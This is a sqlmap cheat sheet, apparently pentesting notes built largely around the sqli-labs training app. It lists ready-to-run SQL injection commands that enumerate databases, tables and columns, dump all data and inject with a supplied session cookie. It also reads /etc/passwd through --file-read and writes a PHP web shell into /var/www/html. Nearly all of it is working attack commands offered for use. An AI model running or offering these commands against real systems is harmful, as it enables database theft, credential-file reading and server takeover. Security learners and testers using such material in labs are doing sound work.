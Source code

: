 **List databases**

```text
./sqlmap.py -u http://localhost/Less-1/?id=1 --dbs
```

**List tables**

```text
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name --tables
```

**List columns**

```text
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --columns
```

**Dump all**

```text
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --dump-all
```

**Set Cookie**

```text
./sqlmap.py -u http://target/ovidentia/index.php\?tg\=delegat\&idx\=mem\&id\=1 --cookie "Cookie: OV1364928461=6kb5jvu7f6lg93qlo3vl9111f8" --random-agent --risk 3 --level 5 --dbms=mysql -p id --dbs
```

**Checking Privileges**

```text
./sqlmap.py -u http://localhost/Less-1/?id=1 --privileges | grep FILE
```

**Reading file**

```text
./sqlmap.py -u <URL> --file-read=<file to read>
```

```text
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-read=/etc/passwd
```

**Writing file**

```text
./sqlmap.py -u <url> --file-write=<file> --file-dest=<path>
```

```text
./sqlmap.py -u http://localhost/Less-1/?id=1 --file-write=shell.php --file-dest=/var/www/html/shell-php.php
```

**POST**

```text
./sqlmap.py -u <POST-URL> --data="<POST-paramters> "
```

